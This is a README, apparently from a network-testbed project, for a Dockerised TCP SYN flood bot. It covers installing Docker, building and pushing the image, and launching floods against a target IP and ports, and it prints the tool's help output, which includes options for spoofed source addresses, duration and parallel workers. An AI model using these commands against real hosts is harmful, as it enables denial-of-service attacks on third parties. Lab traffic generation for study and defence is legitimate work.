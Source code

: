 # Octo-Bot: DDoS TCP-Syn Flood Attack Bot

## About SynFlood-Attack-Bot

This bot performs a [TCP Syn Flood attack](https://www.netscout.com/what-is-ddos/) on its intended targets. A Syn Flood is a common form of Denial-of-Service (DDoS) attack  that can target any system connected to the Internet and providing Transmission Control Protocol (TCP) services syn-flood-attacks).

## Quick Start Guide

### Install Dependencies

We should verify that the container works locally before we push it to Docker Hub. On Ubuntu, install `docker` with this following command:

```console
ncl@orchestrator:~/$ sudo apt-get update
ncl@orchestrator:~/$ sudo apt-get install docker-ce docker-ce-cli containerd.io
ncl@orchestrator:~/$ sudo docker run hello-world
``` 
The detailed steps can be found in this [link](https://docs.docker.com/install/linux/docker-ce/ubuntu/).
For other Linux distros, visit [here](https://docs.docker.com/engine/install/). (It is not recommended to use Windows for this)

### Download the Source Code
 
Download the whole source of OctoBot software from the GitHub and navigate to the specific directory
 
```console
ncl@orchestrator:~/$ git clone https://github.com/nus-ncl/OctoBot
ncl@orchestrator:~/$ cd OctoBot/Octo-Bot/synflood-attack-bot
```
 
### Build and Run the Specific Bot under Docker
 
Build the docker image locally.
 
```console
ncl@orchestrator:~/OctoBot/Octo-Bot/synflood-attack-bot$ ./build.sh
```

Check the docker image.

```console
ncl@orchestrator:~/OctoBot/Octo-Bot/synflood-attack-bot$ docker images
REPOSITORY                     TAG                 IMAGE ID            CREATED             SIZE
synflood-attack-bot            latest              529fceb6545d        8 minutes ago       118MB
debian                         buster-slim         108d75da320f        8 days ago          69.2MB

```

Run the docker image locally.

```console
ncl@orchestrator:~/OctoBot/Octo-Bot/synflood-attack-bot$ docker run synflood-attack-bot:latest -t 10.10.0.189 -p 80 443
```

Check the running docker.

```console
ncl@orchestrator:~/OctoBot/Octo-Bot/synflood-attack-bot$ sudo docker ps -a
CONTAINER ID        IMAGE                         COMMAND                  CREATED             STATUS                      PORTS               NAMES
888677a369da        synflood-attack-bot:latest    "python3 main.py -r …"   38 seconds ago      Exited (0) 40 seconds ago                       blue_fish
```

### Push the docker image into Docker Hub

Tag and push the image with your Docker Hub repository's credential. Replace `korona` with your own username on Docker Hub.

```console
ncl@orchestrator:~/OctoBot/Octo-Bot/synflood-attack-bot$ docker tag 529fceb6545d korona/synflood-attack-bot:latest
ncl@orchestrator:~/OctoBot/Octo-Bot/synflood-attack-bot$ docker login --username=korona
ncl@orchestrator:~/OctoBot/Octo-Bot/synflood-attack-bot$ docker push korona/synflood-attack-bot:latest
```

### Run the public docker image

Run locally the public docker image.

```console
ncl@orchestrator:~/OctoBot/Octo-Bot/synflood-attack-bot$ docker run korona/synflood-attack-bot:latest -t 10.10.0.189 -p 80 443
```

## Help and Arguments

You can display the help right within the bot.

```console
ncl@orchestrator:~/OctoBot/Octo-Bot/synflood-attack-bot$ docker run korona/synflood-attack-bot:latest --help
usage: synflood-attack.py [-h] [--interactive] [-o ORIGIN [ORIGIN ...]]
                          [-O ORIGIN_PORT [ORIGIN_PORT ...]] -t TARGET
                          [TARGET ...] -p TARGET_PORT [TARGET_PORT ...]
                          [-i INTERFACE] [-d DURATION] [-g GAP] [-w WORKERS]

optional arguments:
  -h, --help            show this help message and exit
  --interactive         use scapy interactive console
  -o ORIGIN [ORIGIN ...], --origin ORIGIN [ORIGIN ...]
                        (optional) specify source (origin) ip
  -O ORIGIN_PORT [ORIGIN_PORT ...], --origin-port ORIGIN_PORT [ORIGIN_PORT ...]
                        (optional) specify source (origin) port
  -t TARGET [TARGET ...], --target TARGET [TARGET ...]
                        specify target ip
  -p TARGET_PORT [TARGET_PORT ...], --target-port TARGET_PORT [TARGET_PORT ...]
                        specify target port
  -i INTERFACE, --interface INTERFACE
                        (optional) specify interface
  -d DURATION, --duration DURATION
                        (optional) continuously generate traffic for a set
                        duration of time
  -g GAP, --gap GAP     (optional) gap (delay) between packets
  -w WORKERS, --workers WORKERS
                        (optional) number of workers to run in parallel per
                        ip-port combination pair

```
